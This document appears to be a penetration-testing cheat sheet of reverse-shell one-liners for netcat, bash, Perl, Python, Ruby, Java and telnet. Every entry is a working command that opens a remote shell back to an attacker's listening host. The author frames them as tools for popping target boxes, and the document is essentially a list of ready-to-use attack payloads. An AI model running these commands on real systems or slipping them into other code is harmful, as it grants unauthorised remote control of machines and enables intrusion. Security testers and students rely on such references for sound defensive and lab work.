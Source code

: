 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

For all these below mentioned you should be listening on your attack box ;make sure to change the 127.0.0.1 to your attacker listening IP!

### 1. Netcat

For old versions of netcat -  

	nc attackerip 4444  -e /bin/sh
	/bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
	sudo apt-get install netcat-traditional

### 2. Bash

	bash -i >& /dev/tcp/<attacker ip>/4444 0>&1  
    
Or using some bash-skillz -
	exec 5<>/dev/tcp/127.0.0.1/4444
	cat <&5 | while read line; do $line 2>&5 >&5; done

Creates an FD (File descriptor) 5 and does a bunch of piping-fu; connects back to 4444
### 3. PERL  
Good ol' PERL, nearly every system has it and is a cornerstone of utility -  
	
    perl -e 'use Socket;$i="127.0.0.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### 4. Python

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### 5. Ruby
	ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'   

### 6. Java

This is a pretty obscure / esoteric method but there might be a chance you might come across using this  (probably during a web app file upload vuln ? )-  

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
    
### 7. Telnet

     rm -f /tmp/p; mknod /tmp/p p && telnet 127.0.0.1 4444 0/tmp/p
     
Or use a bunch of piping
     
    telnet attackerip 4444 | /bin/bash | telnet 127.0.0.1 4444   

There are other methods such as xterm but I have never got it to work as most of the boxes I popped never had xorg server installed.
    
    
    
